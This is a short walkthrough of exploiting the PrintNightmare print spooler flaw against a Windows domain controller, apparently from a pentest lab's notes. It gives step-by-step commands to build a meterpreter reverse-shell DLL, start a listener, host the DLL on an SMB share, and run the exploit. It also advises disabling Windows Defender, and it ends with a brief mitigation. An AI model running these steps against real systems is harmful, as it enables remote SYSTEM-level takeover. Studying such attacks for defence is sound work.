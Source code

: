 PrintNightmare might be the biggest bugs to hit 2021. It takes advantage of the printer spooler. And that printer spooler has a functionality that allows users to add printers and that runs as system privilege. Since it runs on system privileges, it can do remote code execution on system privileges. It is very dangerous.

First we will check whether this is vulnerable on our environment or not:

```bash
rpcdump.py @<IP_of_DC> | egrep 'MS-RPRN|MS-PAR'
```

If you see Print System Asynchronous Remote Protocol and Print System Remote Protocol, we are vulnerable

For running this attack, we need the latest version of impacket

```bash
pip3 uninstall impacket
git clone https://github.com/cube0x0/impacket
cd impacket
python3 ./setup.py install
```

So, afterwards, we will be running this code with a malicious dll and we will be hosting that dll. Lets first create the malicious dll

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp/ LHOSTS=<our_ip_address> LPORT=5555 -f dll > shell.dll
```

Paralelly, we start msfconsole

```shell
msfconsole
use multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set lport 5555
set lhost <your_IP>
run
```

Next, we need to setup a fileshare. Thats where impacket comes in. 

```bash
smbserver.py share 'pwd' -smb2support
```

Then we can run the following script:

```bash
python3 CVE-2021-1675.py marvel.local/<user>:<password>@<DC_IP> '\\<your_IP>\share\shell.dll'
```

Note: Turn off Windows Defender to run this attack successfully.

Mitigation:

Disable spooler service. 
```powershell
Stop-Service Spooler
REG ADD  "HKLM\SYSTEM\CurrentControlSet\Services\Spooler"  /v "Start" /t REG_DWORD /d "4" /f
```

